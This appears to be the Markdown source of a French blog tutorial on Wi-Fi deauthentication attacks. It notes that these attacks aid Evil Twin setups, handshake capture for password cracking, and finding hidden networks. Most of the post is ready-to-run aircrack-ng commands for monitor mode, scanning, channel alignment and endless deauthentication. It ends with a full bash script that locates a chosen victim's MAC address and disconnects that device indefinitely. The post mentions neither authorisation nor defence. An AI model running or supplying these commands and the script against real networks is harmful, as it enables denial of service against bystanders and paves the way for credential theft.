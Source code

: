 ```yaml
---
weight: 4
title: "Attaque de désauthentification"
date: 2021-02-01T00:00:00+00:00
draft: false
author: "Nyxott"
description: "Effectuer une attaque de désauthentification Wi-Fi"
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["Wi-Fi"]
categories: ["Wi-Fi"]

lightgallery: true
---
```


Cet article explique comment effectuer une attaque de désauthentification Wi-Fi.

<!--more-->

## Introduction

Une attaque de désauthentification Wi-Fi est une forme de déni de service ciblant la communication entre un client et un point d'accès Wi-Fi.

Cette attaque consiste à ce qu'un attaquant envoie des demandes de désauthentification à un accès Wi-Fi en se faisant passer pour un de ces clients. Cela a pour effet de déconnecter le client en question du point d'accès Wi-Fi.

Elle est, la plupart du temps, utilisée conjointement avec d'autres attaques.

Ainsi, un attaquant peut mettre en place un point d'accès Wi-Fi malveillant dans le cadre d'une attaque `Evil Twin`. Dans ce cas, l'attaquant pourra utiliser une attaque de désauthentification afin de déconnecter le client de son point d'accès Wi-Fi légitime pour le reconnecter sur le point d'accès malveillant.

Dans un autre contexte, un attaquant tentant de découvrir le mot de passe d'un point d'accès Wi-Fi peut utiliser cette méthode afin de déconnecter un client et récupérer le 4-Way Handshake pour ensuite effectuer une attaque brute-force.

Enfin, cette attaque de désauthentification peut tout simplement permettre de connaître le SSID d'un point d'accès Wi-Fi caché.

## Installation des outils

On installe les outils nécessaires :
```shell
sudo apt install aircrack-ng
```

## Attaque

### Mode moniteur

Tout d'abord, il faut passer la carte Wi-Fi en mode moniteur afin de pouvoir écouter le trafic Wi-Fi environnant :
```shell
sudo airmon-ng start <INTERFACE>
```

{{< admonition >}}
Il est possible de trouver l'interface Wi-Fi via la commande suivante :
```shell
sudo iwconfig
```
{{< /admonition >}}

### Capture du trafic

Une fois la carte activée en mode moniteur, il est possible d'écouter le trafic Wi-Fi environnant grâce à la commande suivante :
```shell
sudo airodump-ng <INTERFACE>mon
```

Cette commande permet de récupérer énormément d'informations telles que, notamment :
* `BSSID` : L'adresse MAC du point d'accès ;
* `PWR` : La puissance du signal reçue. Plus le nombre est proche de 100, plus le signal est fort ; 
* `Data` : Le nombre de paquets de données capturés. Plus le nombre est élevé plus il y a d'activité ;
* `CH` : Le canal sur lequel la communication est effectuée ;
* `ENC` : L'algorithme de chiffrement utilisé ;
* `ESSID` : Le nom du point d'accès ;

De plus, elle permet également de récupérer l'adresse MAC des clients (STATION) connectés à chaque point d'accès détecté.

{{< admonition tip >}}
A tout moment, il est possible de couper l'écoute via un `ctrl + c`.
{{< /admonition >}}

### Alignement du canal

Une fois le point d'accès cible repéré, il est indispensable d'aligner la carte Wi-Fi sur le même canal que celui-ci afin de pouvoir correctement communiquer.

Cela est possible via la commande suivante :
```shell
sudo airodump-ng -d <BSSID> -c <CH> wlp2s0mon
```

{{< admonition tip >}}
Il est possible d'effectuer immédiatement un `ctrl + c` puisque l'alignement sur le bon canal est instantané.
{{< /admonition >}}

### Désauthentification

Une fois toutes ces étapes effectuées, il est désormais possible d'exécuter l'attaque via la commande suivante :
```shell
sudo aireplay-ng -0 0 -a <BSSID> -c <STATION> <INTERFACE>mon
```

{{< admonition >}}
Le `0` (à ne pas confondre avec le `-0`) permet d'envoyer des trames de désauthentification indéfiniment.
Il est possible de modifier ce nombre par `10`, par exemple, si l'on souhaite envoyer uniquement dix trames de désauthentification.
{{< /admonition >}}

{{< admonition tip >}}
Si l'option `-c <STATION>` n'est pas précisée, l'ensemble des clients connecté au point d'accès seront désauthentifiés.
{{< /admonition >}}

{{< admonition tip >}}
Lorsque des trames de désauthentification sont envoyées indéfiniment, il est possible d'effectuer un `ctrl + c` pour y mettre fin.
{{< /admonition >}}

### Mode station

Une fois l'attaque effectué, il est possible de désactiver le mode moniteur de la carte Wi-Fi via la commande suivante :
```shell
sudo airmon-ng stop <INTERFACE>mon
```

## Attaque automatisée

Répéter toutes ces commandes peut être contraignant notamment si l'on connaît déjà l'adresse MAC de la cible.

Partant de ce constat, la création d'un script automatisant cette attaque peut s'avérer utile.

```bash
#!/bin/bash

TARGET="<TARGET_MAC_ADDRESS>"

echo -e "\e[97mActivating monitor mode...\e[0m"
sudo airmon-ng start wlp2s0 > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mCleanning old file...\e[0m"
sudo rm airodump-01.csv > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mScanning access points...\e[0m"
sudo airodump-ng -w airodump --output-format csv wlp2s0mon > /dev/null 2>&1 &
sleep 20
sudo killall -15 airodump-ng
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mSearching target...\e[0m"
AP_TARGET=`grep $TARGET airodump-01.csv | cut -d "," -f 6 | xargs` > /dev/null 2>&1

if [ $AP_TARGET ]; then
	echo -e "\e[1;92mOK\e[0m\n"

	echo -e "\e[97mSearching additional information...\e[0m"
	TEMP=`grep $AP_TARGET airodump-01.csv | head -n 1`
	CHANNEL_TARGET=`echo $TEMP | cut -d "," -f 4 | xargs` > /dev/null 2>&1
	NAME_AP_TARGET=`echo $TEMP | cut -d "," -f 14 | xargs` > /dev/null 2>&1
	sudo airodump-ng -d $AP_TARGET -c $CHANNEL_TARGET wlp2s0mon > /dev/null 2>&1 &
	sleep 1
	sudo killall -15 airodump-ng
	echo -e "\e[1;92mOK\e[0m\n"

	echo -e "\e[1;97m$TARGET\e[0m\e[97m detected on \e[0m\e[1;97m$NAME_AP_TARGET\e[0m\e[97m (\e[0m\e[1;97m$AP_TARGET\e[0m\e[97m)\e[0m\n"
	
	if [ "$1" = "attack" ]; then
		echo -e "\e[97mStarting attack...\e[0m"
		sudo aireplay-ng -0 0 -a $AP_TARGET -c $TARGET wlp2s0mon
		echo -e "\e[1;92mOK\e[0m\n"
	fi
else
	echo -e "\e[1;91mNO\e[0m\n"
fi

echo -e "\e[97mDeactivating monitor mode...\e[0m"
sudo airmon-ng stop wlp2s0mon > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m"

```

Il suffit d'indiquer l'adresse MAC de la cible et le script se chargera automatiquement de détecter si la cible est connectée à un point d'accès Wi-Fi. Si tel est le cas, le script enverra indéfiniment des trames de désauthentification au point d'accès Wi-Fi en question afin de désauthentifier la cible.

{{< admonition tip >}}
`./<SCRIPT_NAME>` : Permet de savoir si la cible est connectée ou non. Si elle l'est, le script indiquera sur quel point d'accès elle se trouve sans effectuer d'attaque.

`./<SCRIPT_NAME> attack` : Permet de savoir si la cible est connectée ou non. Si elle l'est, le script indiquera sur quel point d'accès elle se trouve et effectuera l'attaque.
{{< /admonition >}}
